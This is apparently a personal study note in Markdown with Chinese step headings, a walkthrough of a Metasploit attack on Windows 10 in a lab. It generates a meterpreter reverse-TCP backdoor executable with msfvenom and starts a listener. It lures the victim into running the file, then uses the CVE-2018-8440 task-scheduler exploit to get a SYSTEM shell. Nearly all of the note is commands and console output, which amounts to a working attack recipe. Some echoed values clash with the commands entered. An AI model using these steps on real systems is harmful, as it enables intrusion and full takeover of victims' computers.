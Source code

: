 # Metasploit-Note

## CVE-2018-8440
----
```
Attacker IP : 192.168.1.1
Victim IP : 192.168.1.2
Victim OS : Windows 10x64
```
Attacker Computer

Step 1. 產生後門程式
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > backdoor.exe
```
Step 2. 監聽回傳設定
```
$ msfconsole
msf > use mulit/handler
msf exploit(mulit/handler) >  set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mulit/handler) >  set LHOST 192.168.1.1
LHOST => 192.168.59.144
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
```
Step 3. 誘使受害端點擊 backdoor.exe，並取得一般使用者權限
```
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:50228) at 2018-10-01 08:40:10 +0800
meterpreter > getuid
Server username: DESKTOP-E6KTUJB\User
meterpreter > background 
[*] Backgrounding session 1...
```
Step 4. 查看監聽對象資訊
```
msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  1         meterpreter x64/windows  DESKTOP-E6KTUJB\User @ DESKTOP-E6KTUJB  192.168.1.1:4444 -> 192.168.1.2:50228 (192.168.59.146)
```
Step 5. 使用 CVE-2018-8440 漏洞腳本，並取得系統權限
```
msf exploit(multi/handler) > use exploit/windows/local/alpc_taskscheduler 
msf exploit(windows/local/alpc_taskscheduler) > show options 

Module options (exploit/windows/local/alpc_taskscheduler):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS                   no        Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 7976 launched.
[*] Writing payload dll into process 7976 memory
[*] Reflectively injecting the exploit DLL into 7976...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.2:50258) at 2018-10-01 09:16:31 +0800

C:\Windows\system32>whoami
whoami
nt authority\system
```
# Notes
* Metasploit 腳本更新
  Kali 中 .rb 的存放路徑為 /usr/share/metasploit-framework/modules/exploits 中

  將 .rb 放進去資料夾後，重新載入
  ```
  $ msfconsole
  msf > reload_all
  [*] Reloading modules from all module paths...
  ```
# Reference
[metasploit-framework](https://github.com/rapid7/metasploit-framework)
